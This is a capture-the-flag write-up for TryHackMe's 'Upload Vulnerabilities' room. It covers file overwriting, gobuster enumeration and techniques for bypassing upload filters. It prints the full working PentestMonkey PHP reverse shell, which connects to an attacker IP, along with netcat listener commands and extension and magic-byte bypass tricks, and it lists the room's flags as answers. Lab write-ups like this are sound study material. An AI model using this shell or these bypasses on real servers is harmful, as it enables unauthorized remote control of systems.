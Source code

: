 ![image](https://github.com/user-attachments/assets/7bb17b22-4c92-4396-878b-46b32062717e)# Upload Vulnerabilities

### Overwriting Existing Files
- What is the name of the image file which can be overwritten?
Navigate to `overwrite.uploadvulns.thm`. Open the page source code: <br />
![image](https://github.com/user-attachments/assets/442b3dce-5883-472f-ab13-cfe70ec3bf9e)<br />
`mountains.jpg`
- Overwrite the image. What is the flag you receive? <br />
Create a file named "mountains.jpg" and upload it to the web server to get the flag: `THM{OTBiODQ3YmNjYWZhM2UyMmYzZDNiZjI5}`

### Remote Code Execution
- Run a Gobuster scan on the website using the syntax from the screenshot above. What directory looks like it might be used for uploads? (N.B. This is a good habit to get into, and will serve you well in the upcoming tasks...) <br />
Navigate to `shell.uploadvulns.thm`. To run gobuster, use the following command: `gobuster dir -u http://shell.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt` <br />
![image](https://github.com/user-attachments/assets/ed3fa1c3-56a5-4258-807d-436ca32c700b)<br />
`/resources`
- Get either a web shell or a reverse shell on the machine. What's the flag in the /var/www/ directory of the server? <br />
Go to Revshell.com and copy to get a PHP reverse shell, I will use the one from PentestMonkey: <br />
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.11.85.53';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
<br />
Upload it on the web server, and open a netcat listener on you attack box: `nc -lnvp 4444`. Then go to `http://shell.uploadvulns.thm/resources` and select the uploaded php reverse shell.<br />

![image](https://github.com/user-attachments/assets/4074a7d2-010b-4856-99da-b02f0d6f88a8)

`THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}`

### Filtering
- What is the traditionally predominant server-side scripting language? `PHP`
- When validating by file extension, what would you call a list of accepted extensions (whereby the server rejects any extension not in the list)? `Whitelist`
- [Research] What MIME type would you expect to see when uploading a CSV file? `text/csv`

### Bypassing Client-Side Filtering
- What is the flag in /var/www/? <br />
If we try to upload the same php shell as before, we get an error: <br />
![image](https://github.com/user-attachments/assets/1c023e3c-a47e-442e-828e-3df653b9544f)
Apparently the web server only allows .png files. But this is just a front-end filter, we can try to rename `revshell.php` to `revshell.php.png`, intercept the request on burpsuite and change the file name again: <br />
![image](https://github.com/user-attachments/assets/a6d2799a-687e-42f0-8479-26c73c15e6b4)
Now again create a reverse shell like before and get the flag at /var/www/flag.txt: `THM{NDllZDQxNjJjOTE0YWNhZGY3YjljNmE2}`

### Bypassing Server-Side Filtering: File Extensions
- What is the flag in /var/www/? <br />
Navigate to annex.uploadvulns.thm. The filter is built to only accept .png files. However after some trial and error, I found out that it also accepts .php2 files, if the name contains .png. Therefore I renamed the php reverse shell as `revshell.png.php2` and the upload was successful: <br />
![image](https://github.com/user-attachments/assets/ce6a7a1e-c344-41fd-bc85-976da202115e)
Again, spawn a reverse shell and the the flag: `THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}`

### Bypassing Server-Side Filtering: Magic Numbers
- Grab the flag from /var/www/ <br />
Head to `magic.uploadvulns.thm`. To successfully upload our `revshell.php`, we need to modify the magic number of the file. Search for the [file signature](https://en.wikipedia.org/wiki/List_of_file_signatures) for gifs, which is GIF87a. Simply add this string at the beginning of the file. <br />
To check if the hexadecimal value is correct, you can check it by opening the file using `hexeditor`. Now, even the linux `file` command thinks it's a gif: <br />
![image](https://github.com/user-attachments/assets/9b420dfd-6507-49c3-8ac2-24cf985b967a)
beautiful. Now we need a way to find where the files are uploaded. A gobuster search finds us the "graphisc" directory. However we cannot access it. My first trivial try was to try to access the `http://magic.uploadvulns.thm/graphics/revshell.php`  and it worked, lol. If you know any method to find the locations of uploaded files please feel free to let me know, I want to learn! <br />
By accessing the file, the web server executed it and we spawned a reverse shell. The flag is: `THM{MWY5ZGU4NzE0ZDlhNjE1NGM4ZThjZDJh}`

### Challenge
- Hack the machine and grab the flag from /var/www/ <br />  `THM{NzRlYTUwNTIzODMwMWZhMzBiY2JlZWU2}`


